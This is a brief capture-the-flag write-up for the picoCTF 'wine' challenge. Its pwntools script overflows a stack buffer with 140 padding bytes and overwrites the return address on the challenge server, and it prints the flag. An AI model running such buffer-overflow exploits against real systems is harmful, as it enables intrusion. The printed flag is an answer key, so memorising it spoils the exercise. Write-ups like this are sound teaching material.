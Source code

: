 # wine

### Description
> Challenge best paired with wine.

### Solution
I debugged on the server.

All that remains is to match the offset and overwrites the return address.

```
from pwn import *

host = "saturn.picoctf.net"
port = 64813
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = remote(host, port)
pld = b"\x90"*140 + b"\x30\x15\x40\x00"
io.sendlineafter("string!", pld)

io.interactive()
#picoCTF{Un_v3rr3_d3_v1n_11eef972}
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)

